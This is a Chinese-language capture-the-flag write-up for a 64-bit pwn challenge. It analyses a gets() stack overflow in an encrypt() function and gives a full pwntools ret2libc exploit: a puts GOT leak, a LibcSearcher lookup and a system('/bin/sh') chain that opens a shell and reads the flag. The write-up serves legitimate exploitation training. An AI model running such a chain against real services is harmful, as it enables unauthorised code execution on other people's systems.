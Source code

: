 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711351646091-473c80bb-b081-42ab-8ac4-c0056c3d0612.png#averageHue=%23252b31&clientId=u620920a9-0c5a-4&from=paste&height=837&id=udceb363e&originHeight=837&originWidth=743&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77709&status=done&style=none&taskId=uf8026596-f5cf-4eba-8c81-54db3d2e112&title=&width=743)
### 下载好附件之后，先丢到 checksec 看一下开了什么保护
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352413112-e07b4481-0817-474b-a5fa-d8798dd613aa.png#averageHue=%230f2427&clientId=u620920a9-0c5a-4&from=paste&height=232&id=u89d82581&originHeight=232&originWidth=510&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68848&status=done&style=none&taskId=ua511d451-1fed-4ec3-a568-a8a36e7e009&title=&width=510)
### 有栈溢出：Stack:    No canary found
### 丢到IDE看一下
按 shift+f12 看一下字符串，发现没有system和/bin/sh
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352579899-135f5402-e48a-4ea6-b344-852335ccc132.png#averageHue=%23474643&clientId=u620920a9-0c5a-4&from=paste&height=778&id=u4db6c5e4&originHeight=778&originWidth=1270&originalType=binary&ratio=1&rotation=0&showTitle=false&size=99914&status=done&style=none&taskId=u2ce971c1-d1e2-43e4-b876-c32c3f0e983&title=&width=1270)
回到上方标签（ IDA View-A ）回到主界面按f5查看伪代码
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352692527-afcf4d9d-6877-4d39-a135-4f0eb2c97599.png#averageHue=%23312f2e&clientId=u620920a9-0c5a-4&from=paste&height=611&id=ud92e9b96&originHeight=611&originWidth=681&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51416&status=done&style=none&taskId=u13a2e265-49fe-4f58-b123-01d09949aa7&title=&width=681)
发现encrypt()函数存在gets溢出
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352763184-253e4de4-f0d8-49da-9571-6c0791920b65.png#averageHue=%23302f2e&clientId=u620920a9-0c5a-4&from=paste&height=571&id=ub68ac996&originHeight=571&originWidth=432&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29792&status=done&style=none&taskId=ub44cb765-8eae-416f-95fd-f22e5563db2&title=&width=432)
gets没有任何限制，但是储存用户输入的s只有50的大小，加上r的大小就能溢出
双击s查看
```
0000000000000050 s db 48 dup(?)   // s的大小只有50
-0000000000000020 anonymous_0 dw ?
-000000000000001E db ? ; undefined
-000000000000001D db ? ; undefined
-000000000000001C db ? ; undefined
-000000000000001B db ? ; undefined
-000000000000001A db ? ; undefined
-0000000000000019 db ? ; undefined
-0000000000000018 db ? ; undefined
-0000000000000017 db ? ; undefined
-0000000000000016 db ? ; undefined
-0000000000000015 db ? ; undefined
-0000000000000014 db ? ; undefined
-0000000000000013 db ? ; undefined
-0000000000000012 db ? ; undefined
-0000000000000011 db ? ; undefined
-0000000000000010 db ? ; undefined
-000000000000000F db ? ; undefined
-000000000000000E db ? ; undefined
-000000000000000D db ? ; undefined
-000000000000000C db ? ; undefined
-000000000000000B db ? ; undefined
-000000000000000A db ? ; undefined
-0000000000000009 db ? ; undefined
-0000000000000008 db ? ; undefined
-0000000000000007 db ? ; undefined
-0000000000000006 db ? ; undefined
-0000000000000005 db ? ; undefined
-0000000000000004 db ? ; undefined
-0000000000000003 db ? ; undefined
-0000000000000002 db ? ; undefined
-0000000000000001 db ? ; undefined
+0000000000000000  s db 8 dup(?)
+0000000000000008  r db 8 dup(?) // r 的大小有8
```
### 开始构造第一个payload
因为这个程序是64位的，要查看指令地址
在kali里面运行命令：
```bash
ROPgadget --binary pwn --only "pop|ret"
# 这里的 pwn 是你的文件名，我为了方便改了
```
得到结果：
```bash
Gadgets information
============================================================
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret // 记住这个地址 0x400c83
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret // 记住这个地址 0x4006b9
0x00000000004008ca : ret 0x2017
0x0000000000400962 : ret 0x458b
0x00000000004009c5 : ret 0xbf02

Unique gadgets found: 15
```
构造payload
tips：因为gets的s参数的大小只有50，r的大小有8。这两个数值都是16进制,所以
```python
b'a' * (0x50+0x8) # 溢出的大小 
```
## 完整exp
```python
def payload(url, port):
    context(arch="amd64",os="linux",log_level="debug")
    elf = ELF('./pwn') # 文件路径
    p = remote(url,port)
    # 指令地址
    pop_rdi_ret = 0x400c83
    ret = 0x4006b9
    # 查找地址
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    # 加密函数地址
    enc = elf.sym['encrypt']
    # 构造payload
    pd1 = b'a' * (0x50+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(enc)
    # 发送选项1，选择加密
    p.sendlineafter('choice!',str(1))
    # 发送payload到加密函数的输入上去
    p.sendlineafter('encrypt',pd1)
    # 找到libc地址
    put = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print(hex(put)) 
    # 输出
    """ >>> 0x7f2961b099c0 """
    print('选择 libc6_2.27-0ubuntu2_amd64')
    libc = LibcSearcher('puts',put)
    libc_base = put - libc.dump('puts')
    # 获取system和sh
    def addr(hx):
        if hx == 'system':
            return libc_base + libc.dump('system')
        elif hx == 'str_bin_sh':
            return libc_base + libc.dump('str_bin_sh')
        hx = ''
    sys_addr = addr('system')
    sh_addr = addr('str_bin_sh')
    print(hex(sys_addr),hex(sh_addr))
    
    # 构造第二个payload
    pd2 = b'a' * 0x58 + p64(ret) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
    # 利用
    p.sendlineafter('encrypt',pd2)
    p.interactive()

if __name__ == '__main__':
    from pwn import *  # 导入pwntools库 
    # Windows没有库的话，安装命令：pip install pwntools
    from LibcSearcher import *  # 导入LibcSearcher库 
    url = ''  # 题目地址
    payload(url.split(":")[0], url.split(":")[1])  # 调用payload函数进行渗透
```
### 运行提示
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354129056-95ca2de8-de74-41a4-98d5-c08e3d114d3f.png#averageHue=%23282624&clientId=u620920a9-0c5a-4&from=paste&height=723&id=ub5aff1b5&originHeight=723&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&size=78750&status=done&style=none&taskId=ubb332ef5-0879-4ddb-8e14-c52e7bcca2b&title=&width=721)
看到有一排的a时，输入命令：ls
ls 运行完后 输出 cat flag得到
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354169453-c9eaac9e-f6ac-4f71-bcbc-fbe6e25f0f7d.png#averageHue=%23252423&clientId=u620920a9-0c5a-4&from=paste&height=707&id=uf1a28670&originHeight=707&originWidth=547&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39501&status=done&style=none&taskId=ua50f74f6-32df-4596-b9b9-5280a4d6056&title=&width=547)
